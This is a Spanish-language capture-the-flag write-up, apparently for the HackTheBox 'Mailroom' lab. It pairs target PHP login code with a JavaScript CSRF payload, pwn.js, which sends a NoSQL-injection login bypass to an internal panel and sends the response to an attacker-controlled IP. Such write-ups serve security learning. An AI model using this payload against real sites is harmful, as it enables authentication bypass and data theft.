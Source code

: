 Si el email y password son validos(existen en la base de datos), envia un token al email, el cual utiliza como mecanismo de autenticacion.

Si logramos obtener las credenciales de algun usuario valido de todas formas no podremos autenticarnos en la web.

Si leemos /var/mail/{user} y obtenemos el token ahí si podremos autenticarnos.
{% highlight php %}
echo json_encode(['success' => true, 'message' => 'Check your inbox for an email with your 2FA token']);
    exit;

  } else {
    // Return a JSON error response
    header('HTTP/1.1 401 Unauthorized');
    echo json_encode(['success' => false, 'message' => 'Invalid email or password']);
  }
{% endhighlight %}
### **CSRF - NOSQL injection**

Confirmamos si nos devuelve "Check your inbox for an email with your 2FA token".

`pwn.js`
{% highlight javascript %}
const l1nvx = "http://10.10.14.189:8000";
const url = "http://staff-review-panel.mailroom.htb";

function main() {
    try {
        const req = new XMLHttpRequest();
        // NOSQL
        const body = `email[$ne]=notexists&password[$ne]=notexists`;
        req.onreadystatechange = () => {
            if (req.readyState === XMLHttpRequest.DONE) {
                // Enviar el contenido
                const req_ = new XMLHttpRequest();
                req_.open("GET", `${l1nvx}/?data=${encodeURIComponent(req.responseText)}`, false);
                req_.send();
            }
        }
        req.open("POST", `${url}/auth.php`, false);
        req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        req.send(body);
    } catch (error) {
        // Enviar error
        const req = new XMLHttpRequest();
        req.open("GET", `${l1nvx}/?error=${encodeURIComponent(error)}`, false);
        req.send();
    }
}
main();
{% endhighlight %}
